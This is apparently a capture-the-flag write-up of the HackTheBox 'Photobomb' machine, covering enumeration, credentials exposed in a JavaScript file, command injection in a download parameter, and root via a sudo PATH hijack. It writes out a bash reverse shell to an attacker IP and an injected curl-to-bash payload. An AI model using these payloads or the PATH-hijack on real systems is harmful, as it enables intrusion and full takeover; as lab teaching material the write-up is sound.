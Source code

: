 +++
title = "HTB Photobomb"
date = "2023-04"
author = "Celeste"
authorTwitter = "" #do not include @
cover = ""
tags = ["HTB", "Writeup"]
keywords = ["", ""]
description = ""
showFullContent = false
readingTime = false
hideComments = false
color = "" #color from the theme settings
+++

#### Overview
This is an easy linux box with fairly straight forward command injection leading to initial access and path manipulation to use a binary we can run as root to escalate privileges. 

#### Enumeration 

```
$ nmap -p- 10.10.11.182 --open --min-rate 5000 -Pn
Starting Nmap 7.93 ( https://nmap.org ) at 2023-04-24 22:15 AEST
Nmap scan report for 10.10.11.182
Host is up (0.30s latency).
Not shown: 54219 closed tcp ports (conn-refused), 11314 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

So we have
- Port 80  HTTP
- Port 20 SSH

Navigating to the Webpage. The address doesn't resolve to i add `10.10.11.182 photobomb.htb` to the end of my /etc/hosts file. 

I can then view the page in my browser. in summary we are told to "click here" to get started and the credentials are in our welcome pack. 

When you click of the "click here" link you are redirected to /printer and prompted to login. I tried a couple of default creds with no luck and went to see what else i could find. 

Viewing the source of the home page you can see photobomb.js it linked. 

![source](hsource.png)

Veiwing photobomb.js gives you creds nice and easy. 
```js
function init() {
  // Jameson: pre-populate creds for tech support as they keep forgetting them and emailing me
  if (document.cookie.match(/^(.*;)?\s*isPhotoBombTechSupport\s*=\s*[^;]+(.*)?$/)) {
    document.getElementsByClassName('creds')[0].setAttribute('href','http://pH0t0:b0Mb!@photobomb.htb/printer');
  }
}
window.onload = init;
```

We can now log in to photobomb.htb/printer with these credentials. 
```
user: pH0t0
password: b0Mb!
```

#### Initial Access

![login](login.png)

The next page allows us to download images in various formats. 
Capturing the request sent to the server when we click the download link we see three paramaters we could potentially inject commands into. 
```
photo=voicu-apostol-MWER49YaD-M-unsplash.jpg&filetype=jpg&dimensions=30x20
```
I did try all three and only found success injecting into the filetype paramater. 

To get a shell i injected a command to curl a bash script from a python server I had started with `python3 -m http.server` containing a basic bash reverse shell `bash -i >& /dev/tcp/10.10.14.24/1299 0>&1` and piped it into bash. Before sending this request i had started a netcat listener on port 1299. 

```
photo=voicu-apostol-MWER49YaD-M-unsplash.jpg&filetype=jpg;curl+10.10.14.24:8000/shell.sh|bash&dimensions=30x20
```

Once on the box, i got the user.txt in wizards home directory and started looking for a vector for privilege escalation. 

#### Privilege Escalation

```sh
wizard@photobomb:~/photobomb$ sudo -l
sudo -l
Matching Defaults entries for wizard on photobomb:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User wizard may run the following commands on photobomb:
    (root) SETENV: NOPASSWD: /opt/cleanup.sh
```

Our user can run cleanup.sh as root, so if we can get cleanup.sh to change permissions of bash or spawn a shell for us we can have a shell as root. 


I check the permissions of cleanup.sh and read the contents. 
```
wizard@photobomb:~/photobomb$ ls -l /opt/cleanup.sh
ls -l /opt/cleanup.sh
-r-xr-xr-x 1 root root 340 Sep 15  2022 /opt/cleanup.sh
wizard@photobomb:~/photobomb$ cat /opt/cleanup.sh
cat /opt/cleanup.sh
#!/bin/bash
. /opt/.bashrc
cd /home/wizard/photobomb

# clean up log files
if [ -s log/photobomb.log ] && ! [ -L log/photobomb.log ]
then
  /bin/cat log/photobomb.log > log/photobomb.log.old
  /usr/bin/truncate -s0 log/photobomb.log
fi

# protect the priceless originals
find source_images -type f -name '*.jpg' -exec chown root:root {} \;

```

What's interesting here is that all of the binaries called in this script are called by their full path except the `find` at the end. This means the computer will search for this binary in the PATH environment variable and hope for the best. If we can manipulate the bash variable however we can get the script to run anything we would like so long as it's named `find`. 

So i wrote a simple bash script to spawn a bash shell and names it find in /tmp

```bash
#!/bin/bash

/bin/bash
```

I then made my `find` executable and ran cleanup.sh with PATH set to /tmp. 
```
wizard@photobomb:/tmp$ chmod +x find
chmod +x find
wizard@photobomb:/tmp$ sudo PATH=/tmp:$PATH /opt/cleanup.sh
sudo PATH=/tmp:$PATH /opt/cleanup.sh
root@photobomb:/home/wizard/photobomb# 
```
And we have a root shell. Then all that's left is to cat /root/root.txt to get the root flag and you're done. 